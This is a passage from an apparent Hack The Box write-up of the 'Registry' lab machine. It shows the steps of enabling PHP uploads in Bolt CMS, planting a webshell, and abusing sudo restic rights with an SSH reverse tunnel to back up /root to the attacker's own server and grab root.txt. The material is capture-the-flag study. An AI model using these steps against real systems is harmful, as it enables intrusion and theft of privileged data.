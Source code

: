 5. Login as Bolt admin on the login page (found by manually looking through /var/www/html)
    http://registry.htb/bolt/bolt

6. Change the Main Configuration to allow .php Uploads
    Configuration > Main Configuration > Add 'php' in the end of 'accept_file_types'

7. Upload a php-webshell from the File Management, use it and QUICKLY move the shell back one dir. (files dir auto clears every 60s)
    mv webshell.php ..

8. Access the webshell again and continue enumeration as www-data
    http://registry.htb/bolt/webshell.php?cmd=id

9. Executing 'sudo -l' shows that we have root privs to do a restic backup to a remote REST server.
    User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*

10. Install the prerequisites in order to do the backup to your local machine
      root@p3:/srv# apt install restic
      root@p3:/srv# apt install golang  (required for rest server)
      root@p3:/srv# git clone https://github.com/restic/rest-server.git
      root@p3:/srv/rest-server# make install

11. Locally - create (init) a new Restic repo and start the rest-server. All outgoing traffic from registry.htb is blocked,
    we can't wget files, ssh, or push a backup to our local repo. To circumvent this we need to create a SSH-tunnel over
    port 8000 (rest-server default port).
      root@p3:/srv# restic init --repo /srv/restic-repo
        enter password for new repository:                            (mypass)
        enter password again:                                         (mypass)
        created restic repository 817c1fd867 at /srv/restic-repo

      root@p3:/srv# rest-server --path /srv/restic-repo/ --no-auth
      root@p3:/opt/htb/machines/registry# ssh -R 8000:127.0.0.1:8000 bolt@registry.htb -i id_rsa

12. On the remote host create a password-file for the restic-repo and backup the /root dir to your local restic repo
      echo "mypass" > pp

      sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ /root -p pp
        scan [/root]
        [0:00] 10 directories, 14 files, 28.066 KiB
        scanned 10 directories, 14 files in 0:00
        [0:00] 100.00%  28.066 KiB / 28.066 KiB  24 / 24 items  0 errors  ETA 0:00

        duration: 0:00
        snapshot 404fffee saved

13. View your snapshots and backup the root dir from Registry. Grab root.txt
      root@p3:/srv# restic -r /srv/restic-repo/ snapshots
        enter password for repository:
        repository 817c1fd8 opened successfully, password is correct
        ID        Time                 Host        Tags        Paths
        ---------------------------------------------------------------------------------
        d6a158ec  2019-11-07 10:46:02  p3                      /opt/htb/machines/registry
        404fffee  2019-11-07 10:48:05  bolt                    /root
        ---------------------------------------------------------------------------------
        2 snapshots
